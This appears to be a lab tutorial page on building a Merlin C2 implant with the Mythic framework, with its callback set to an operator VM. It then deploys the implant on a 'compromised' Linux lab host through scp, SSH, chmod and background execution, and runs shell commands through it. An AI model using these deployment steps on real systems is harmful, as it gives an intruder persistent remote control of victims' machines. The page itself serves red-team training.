 +++
title = "Merlin Agent"
weight = 6
+++
![](./merlin0.png)

At the risk of sounding overly opinionated, I think the merlin payload is one of the best Linux/Unix compatible c2 
implants you can find.  Here is how to create a new one from within the Mythic web UI.  Alternativly, here is a link 
you could follow for generating a merlin agent using the command line tool.

## Creating a merlin agent for Linux
[Building a custom merlin agent](https://merlin-c2.readthedocs.io/en/latest/agent/custom.html)

* Navigate to the */new/payloads* path and select **Generate New Payload*** from the ACTIONS drop down menu
![](./merlin1.png)

* Select a target operating system which in this case is going to be **Linux**
![](./merlin2.png)

* On the next screen *Select Target Payload Type* simply accept the default and click **Next**
* On the next screen *Build Commands Into Agent* simply accept the defaults and click **Next**
* Check the radio dial next to **http** and update the *Callback Host* parameter to match the IP address of your Ubuntu VM
![](./merlin3.png)
* Accept the rest of the defaults and click **Next**
* Type any notes you want in the Description section and click **CREATE PAYLOAD**
![](./merlin4.png)

This will queue your payload for building and you can check the progress by acecssing */new/payloads*.  When your payload 
is finished being built it will have a green arrow icon under the Download column in the Payloads table.  Download the 
payload so we can try and deploy it on our compromised Linux server.

![](./merlin5.png)

## Deploying merlin on a compromised Linux host
Since we already have a root user with SSH access, deploying this merlin agent is going to be really simple.

* First use **scp** to transfer the merlin binary to the realhax user's home directory (/root)
  *  `scp merlin realhax@192.168.0.106:`
* Then SSH into the host
  *  `ssh realhax@192.168.0.106`
* Change the permissions on the binary so that it is executable and run it in the background
  *  `chmod 755 merlin`
  *  `./merlin &`
![](./merlin6.png)

On the callbacks page you can interact with a particular merlin agent by clicking on the keyboard looking icon and then issuing 
a command merlin knows how to understand.  Try issuing `shell uname -a`

![](./merlin7.png)
